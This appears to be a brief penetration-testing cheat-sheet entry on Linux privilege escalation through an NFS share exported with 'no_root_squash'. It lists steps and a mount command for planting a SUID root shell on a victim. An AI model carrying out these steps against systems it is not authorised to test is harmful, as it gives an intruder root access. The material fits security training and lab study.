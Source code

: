 # NFS + SUID Weak Permissions

- Build an SUID shell and compile
- On the victim, check /etc/exports for "no_root_squash" flag
- mount -o rw,vers=2 $TARGET:/shared /tmp/shared
- create shell, compile and place in the share
- chmod +s suidshell
- on victim, run the suidshell to get root
